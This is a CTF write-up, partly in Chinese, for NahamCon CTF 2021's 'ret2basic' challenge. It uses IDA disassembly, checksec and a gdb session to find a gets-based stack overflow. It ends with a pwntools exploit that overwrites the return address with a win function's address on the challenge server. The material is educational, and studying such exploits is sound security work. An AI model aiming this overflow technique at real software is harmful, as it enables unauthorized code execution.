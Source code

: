# ret2text NahamCon CTF 2021 ret2basic

> 2021 NahamCon CTF https://ctf.nahamcon.com/   https://ctftime.org/event/1281/tasks/
>
> challenge name: ret2basic
>
> file: `ret2basic`
>
> writeup writer: hexhex16@outlook.com
>
> refer writeup: https://coldfusionx.github.io/posts/ret2basic/    用到了gef which is GDB enhanced features，过程中的操作与我的解法有所不同，同时总结了32bit 64bit系统的区别，就算会做这题了也值得一看
>
> https://ctftime.org/event/1281/tasks/ 其他人的writeup可以在这找，也可以去github直接搜，根据看的几份writeup来看，大部分不会用IDA分析，而我用IDA可能是做reverse题带来的坏猫病

- 这道题与`demo_ROP_ret2text`不能说相似只能说是完全相同
- 属于没有骚操作的常规ROP(ret2text)题目，分值在200左右

解题步骤：

1. 找到可供溢出的危险函数`gets`
2. 计算出`gets`的参数的地址与RBP之间的偏移量，该偏移量+8即为返回地址（64bit为8byte）
3. 找到目标函数win的函数地址，该函数会执行`cat flag.txt`
4. 构造payload为 偏移量 + 8 + win函数地址

# checksec

```bash
$ file ret2basic
ret2basic: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=3ca85eae693fed659275c0eed9c313e7f0083b85, for GNU/Linux 4.4.0, not stripped
$ checksec --file=ret2basic
RELRO         STACK CANARY    NX          PIE      RPATH     RUNPATH     Symbols      FORTIFY Fortified    Fortifiable  FILE
Partial RELRO No canary found NX enabled  No PIE   No RPATH  No RUNPATH  59) Symbols    No    0            3            ret2basic
```

- 64bit ELF, No canary



# IDA Analysis

- `main`函数会调用的`vuln`函数：

```assembly
.text:000000000040130F                 public vuln
.text:000000000040130F vuln            proc near               ; CODE XREF: main+9↓p
.text:000000000040130F
.text:000000000040130F var_70          = byte ptr -70h  ; 这里的值就是与RBP的偏移量，没有错。分析错的情况应该与push mov指令的区别、等效有关
.text:000000000040130F
.text:000000000040130F ; __unwind {
.text:000000000040130F                 push    rbp
.text:0000000000401310                 mov     rbp, rsp
.text:0000000000401313                 sub     rsp, 70h
.text:0000000000401317                 lea     rdi, format     ; "Can you overflow this?: "
.text:000000000040131E                 mov     eax, 0
.text:0000000000401323                 call    _printf
.text:0000000000401328                 lea     rax, [rbp+var_70] ; 这里把 gets 的参数地址载入到了rax中，即执行完此句，rax为gets参数地址
.text:000000000040132C                 mov     rdi, rax   ; 故可以把断点下在这个地方，然后看rax与rbp的值，计算偏移量
.text:000000000040132F                 mov     eax, 0
.text:0000000000401334                 call    _gets    ; 危险函数！！！！！！
.text:0000000000401339                 nop
.text:000000000040133A                 leave
.text:000000000040133B                 retn
.text:000000000040133B ; } // starts at 40130F
.text:000000000040133B vuln            endp
```

- 重点关注断点位置

# gdb Analysis

```assembly
$ gdb ret2basic
.........................................................................................
pwndbg> b * 0x000000000040132C
Breakpoint 1 at 0x40132c
pwndbg> r
Starting program: /home/kali/CTF/pwn/ret2basic
Can you overflow this?:
Breakpoint 1, 0x000000000040132c in vuln ()
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
───────────────────────────────────────────[ REGISTERS ]───────────────────────────────────────────
 RAX  0x7fffffffe240 —▸ 0x7ffff7fab980 (_IO_2_1_stdin_) ◂— 0xfbad208b
 RBX  0x0
 RCX  0x0
 RDX  0x0
 RDI  0x7ffff7fae670 (_IO_stdfile_1_lock) ◂— 0x0
 RSI  0x7fffffffbbc0 ◂— 'Can you overflow this?: '
 R8   0x0
 R9   0x18
 R10  0x40205a ◂— 'Can you overflow this?: '
 R11  0x246
 R12  0x401100 (_start) ◂— endbr64
 R13  0x0
 R14  0x0
 R15  0x0
 RBP  0x7fffffffe2b0 —▸ 0x7fffffffe2c0 —▸ 0x401360 (__libc_csu_init) ◂— endbr64
 RSP  0x7fffffffe240 —▸ 0x7ffff7fab980 (_IO_2_1_stdin_) ◂— 0xfbad208b
 RIP  0x40132c (vuln+29) ◂— mov    rdi, rax
───────────────────────────────────────────────[ DISASM ]──────────────────────────────────────────────
 ► 0x40132c <vuln+29>    mov    rdi, rax <0x7ffff7fae670>
   0x40132f <vuln+32>    mov    eax, 0
   0x401334 <vuln+37>    call   gets@plt <gets@plt>

   0x401339 <vuln+42>    nop
   0x40133a <vuln+43>    leave
   0x40133b <vuln+44>    ret

   0x40133c <main>       push   rbp
   0x40133d <main+1>     mov    rbp, rsp
   0x401340 <main+4>     mov    eax, 0
   0x401345 <main+9>     call   vuln <vuln>

   0x40134a <main+14>    lea    rdi, [rip + 0xd22]
────────────────────────────────────────────[ STACK ]───────────────────────────────────────────
00:0000│ rax rsp  0x7fffffffe240 —▸ 0x7ffff7fab980 (_IO_2_1_stdin_) ◂— 0xfbad208b
01:0008│          0x7fffffffe248 —▸ 0x7ffff7e63c38 (setbuffer+200) ◂— test   dword ptr [rbx], 0x8000
02:0010│          0x7fffffffe250 ◂— 0x0
03:0018│          0x7fffffffe258 ◂— 0x1
04:0020│          0x7fffffffe260 —▸ 0x7fffffffe280 ◂— 0x2
05:0028│          0x7fffffffe268 ◂— 0x1
06:0030│          0x7fffffffe270 —▸ 0x7fffffffe3b8 —▸ 0x7fffffffe646 ◂— '/home/kali/CTF/pwn/ret2basic'
07:0038│          0x7fffffffe278 —▸ 0x401212 (setup+44) ◂— nop
────────────────────────────────────────[ BACKTRACE ]───────────────────────────────────────
 ► f 0           40132c vuln+29
   f 1           40134a main+14
   f 2     7ffff7e13d0a __libc_start_main+234
```

- `0x7fffffffe240 - 0x7fffffffe2b0 = -0x70 ` gets函数的参数到RBP的偏移量

# Exploit

```python
from pwn import *
context.log_level = 'debug'
sh = remote('challenge.nahamcon.com', 30413) 
target = 0x0000000000401215 # win 函数的起始地址，从IDA中分析出来
payload = b'A' * (0x70 + 8) + p64(target)  # 注意这个是64bit ELF，所以 return address and saved registers 都是64bit的
sh.sendline(payload)
sh.interactive()
```

